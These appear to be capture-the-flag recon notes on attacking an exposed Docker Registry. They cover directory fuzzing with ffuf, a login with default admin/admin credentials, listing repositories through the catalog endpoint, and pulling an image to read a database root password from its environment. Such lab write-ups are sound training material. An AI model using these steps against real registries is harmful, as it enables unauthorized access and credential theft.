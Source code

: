 
## RECON

---

```bash
ffuf -w  ../../Tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.10.196.61:5000/FUZZ


v2                      [Status: 301, Size: 39, Words: 3, Lines: 3, Duration: 43ms]
http%3A%2F%2Fwww        [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 40ms]
```

Nmap called this Docker Registry (API: 2.0) -> This is a service you can host so people can pull and push images to the registry to work with them, and the entry point for the api is /v2/\<name\>

literaly just tried 

```bash
$ sudo docker login 10.10.196.61:5000
Username: admin
Password: admin

WARNING! Your password will be stored unencrypted in /root/.docker/config.json.
Configure a credential helper to remove this warning. See
https://docs.docker.com/engine/reference/commandline/login/#credentials-store

Login Succeeded

```

Had a bit of a hard time but found that the link

http://10.10.196.61:5000/v2/_catalog

gives me a list of all available:

|||
|---|---|
|repositories||
|0|"umbrella/timetracking"|

So let us try to see what is within this 

```bash
 sudo docker pull 10.10.196.61:5000/umbrella/timetracking
 sudo docker inspect image-id
```

And we obtain the following 

```txt
            "ExposedPorts": {
                "8080/tcp": {}
            },

            "Env": [
                "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
                "NODE_VERSION=19.3.0",
                "YARN_VERSION=1.22.19",
                "DB_HOST=db",
                "DB_USER=root",
                "DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5",
                "DB_DATABASE=timetracking",
                "LOG_FILE=/logs/tt.log"
            ],
            "Cmd": [
                "/bin/sh",
                "-c",
                "#(nop) ",
                "CMD [\"node\" \"app.js\"]"

```

Now we can enter the database with credentials:
- root
- Ng1-f3!Pe7-e5?Nf3xe5

Let's continue in [[PORT 3306]]